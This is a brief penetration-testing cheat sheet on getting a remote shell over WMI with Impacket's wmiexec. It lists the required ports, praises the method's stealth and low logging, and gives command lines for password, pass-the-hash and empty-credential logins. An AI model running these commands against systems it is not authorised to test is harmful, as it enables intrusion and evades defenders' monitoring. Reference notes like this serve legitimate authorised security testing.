 ### WMI
```
Tool: wmiexec.py (from Impacket)
Shell Type: Interactive Shell
Required Ports: 135 RCP Endpoint Mapper, 49152–65535: Dynamic RPC Ports.
```
Pros and Cons
```
Advantages:
Stealthy: Generates minimal logs.
No files or service creation required.
Frequently used in legitimate administrative tasks, reducing suspicion.

Limitations:
Requires open RPC ports (135 + dynamic ports).
Requires local administrator privileges on the target system.
May be blocked by strict firewall configurations.
```
###### Get Shell
```
impacket-wmiexec domain/username:password@ip
impacket-wmiexec -hashes LMHASH:NTHASH domain/username@ip
```

###### Connecting with authentication
```
impacket-wmiexec domain/'':''@ip
```

